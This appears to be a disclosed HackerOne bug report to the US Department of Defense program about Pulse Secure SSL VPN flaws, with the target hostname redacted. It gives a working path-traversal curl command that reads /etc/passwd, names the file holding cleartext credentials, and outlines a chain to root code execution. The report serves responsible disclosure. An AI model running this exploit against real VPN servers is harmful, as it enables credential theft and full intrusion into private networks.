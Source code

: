 # Arbitrary File Reading leads to RCE in the Pulse Secure SSL VPN on the https://███

## Report Details
- **Report ID**: 678496
- **URL**: https://hackerone.com/reports/678496
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-08-21T13:03:00.698Z
- **Disclosed**: 2019-12-02T19:59:54.014Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. Some time ago, researcher Orange Tsai from DEVCORE team had a talk on Defcon/BlackHat regarding Pulse Secure SSL VPN vulnerabilities fixed on 2019/4/25:
**CVE-2019-11510 - Pre-auth Arbitrary File Reading**
CVE-2019-11542 - Post-auth Stack Buffer Overflow
**CVE-2019-11539 - Post-auth Command Injection**
CVE-2019-11538 - Post-auth Arbitrary File Reading
**CVE-2019-11508 - Post-auth Arbitrary File Writing**
CVE-2019-11540 - Post-auth Session Hijacking

Link to the slides: https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf

I discovered that https://████ instance is vulnerable to described vulnerabilities.

##POC
Extracting `/etc/passwd` as example:
```
curl -i -k --path-as-is https://██████/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/
```
{F561180}

The RCE can be achieved with this chain:
1) Pulse Secure stores credentials in the cleartext.
2) Attacker reads credentials via CVE-2019-11510 (it stored in the `/data/runtime/mtmp/lmdb/dataa/data.mdb`) and authorizes on VPN
3) Attacker exploits CVE-2019-11539 - Post-auth Command Injection achieving RCE as root.

##Suggested fix
Update the Pulse Secure SSL VPN software (also implementing certificate validation can harden access a bit if some similar CVEs will be discovered in future).

## Impact

Remote code execution as root (by reading plaintext credentials and then exploiting CVE-2019-11539 - Post-auth Command Injection) and accessing intranet behind VPN.

## Attachments
No attachments
